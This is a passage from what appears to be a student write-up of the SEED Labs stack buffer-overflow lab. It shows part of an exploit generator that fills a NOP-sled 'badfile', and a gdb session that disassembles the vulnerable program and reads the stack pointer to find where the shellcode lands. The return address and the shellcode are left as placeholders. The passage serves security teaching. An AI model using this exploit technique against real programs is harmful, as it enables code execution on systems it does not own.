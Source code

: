 ```c

    /* Initialize buffer with 0x90 (NOP instruction) */
    memset(&buffer, 0x90, 517);

    /* You need to fill the buffer with appropriate contents here */
    /* strcpy(buffer,"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x??\x??\x??\x??"); */
    /*strcpy(buffer+100,shellcode); */

    /* Save the contents to the file "badfile" */
    badfile = fopen("./badfile", "w");
    fwrite(buffer, 517, 1, badfile);
    fclose(badfile);
}
```

To beginnig the attack, we need the address of shellcode.

```sh
seed@ubuntu:~/Desktop$ gdb --quiet stack
Reading symbols from /home/seed/Desktop/stack...(no debugging symbols found)...done.
(gdb) disassemble main
Dump of assembler code for function main:
   0x080484a3 <+0>:	    push   %ebp
   0x080484a4 <+1>:	    mov    %esp,%ebp
   0x080484a6 <+3>:	    and    $0xfffffff0,%esp
   0x080484a9 <+6>:	    sub    $0x220,%esp
   0x080484af <+12>:	mov    $0x80485f0,%edx
   0x080484b4 <+17>:	mov    $0x80485f2,%eax
   0x080484b9 <+22>:	mov    %edx,0x4(%esp)
   0x080484bd <+26>:	mov    %eax,(%esp)
   0x080484c0 <+29>:	call   0x80483c0 <fopen@plt>
   0x080484c5 <+34>:	mov    %eax,0x21c(%esp)
   0x080484cc <+41>:	lea    0x17(%esp),%eax
   0x080484d0 <+45>:	mov    0x21c(%esp),%edx
   0x080484d7 <+52>:	mov    %edx,0xc(%esp)
   0x080484db <+56>:	movl   $0x205,0x8(%esp)
   0x080484e3 <+64>:	movl   $0x1,0x4(%esp)
   0x080484eb <+72>:	mov    %eax,(%esp)
   0x080484ee <+75>:	call   0x8048370 <fread@plt>
   0x080484f3 <+80>:	lea    0x17(%esp),%eax
   0x080484f7 <+84>:	mov    %eax,(%esp)
   0x080484fa <+87>:	call   0x8048484 <bof>
   0x080484ff <+92>:	movl   $0x80485fa,(%esp)
   0x08048506 <+99>:	call   0x8048390 <puts@plt>
   0x0804850b <+104>:	mov    $0x1,%eax
   0x08048510 <+109>:	leave  
   0x08048511 <+110>:	ret    
End of assembler dump.
(gdb) b *0x080484af
Breakpoint 1 at 0x80484af
(gdb) r
Starting program: /home/seed/Desktop/stack

Breakpoint 1, 0x080484af in main ()
(gdb) i r $esp
esp            0xbffff150	0xbffff150
```
